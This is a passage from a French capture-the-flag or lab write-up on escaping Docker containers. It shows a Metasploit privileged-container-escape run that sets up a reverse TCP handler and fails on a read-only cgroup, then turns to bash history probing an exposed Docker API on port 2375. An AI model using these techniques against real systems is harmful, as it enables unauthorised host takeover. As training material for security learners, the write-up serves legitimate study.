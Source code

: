 ```plain
   LHOST  192.168.56.4     yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/local/docker_privileged_container_escape) > check
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_escape) > run

[*] Started reverse TCP handler on 192.168.56.4:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
[*] Writing payload executable to '/tmp/cJRVto'
[*] Writing '/tmp/cJRVto' (344 bytes) ...
[*] Executing script to exploit privileged container
[*] Found container id 782f6cae2a82770972d3fecd2ed17b1bc06e0259a249ace6371897a1b8388722, copying payload to host
[*] mkdir: cannot create directory '/sys/fs/cgroup/rdma/nknDFX': Read-only file system
/bin/sh: 1: cannot create /sys/fs/cgroup/rdma/nknDFX/notify_on_release: Directory nonexistent
/bin/sh: 1: cannot create /sys/fs/cgroup/rdma/release_agent: Read-only file system
sh: 1: cannot create /sys/fs/cgroup/rdma/nknDFX/cgroup.procs: Directory nonexistent
[*] Waiting 20s for payload
[*] Exploit completed, but no session was created.
```

Ça ne fonctionne pas et pour cause le système de fichier est monté read-only :  

```plain
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
```

On se fait jeter si on tente de remonter le FS en écriture malgré que l'on soit root.  

Cette fois c'est la bonne
-------------------------

Après un moment d'égarement je suis revenu sur ce Docker ElasticSearch qui semblait être le seul à vouloir tomber dans mes mains. Je suis retombé sur cet historique bash qui n'avait pas trop attiré mon attention :  

```bash
ls
ifconfig
ip addr
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
```
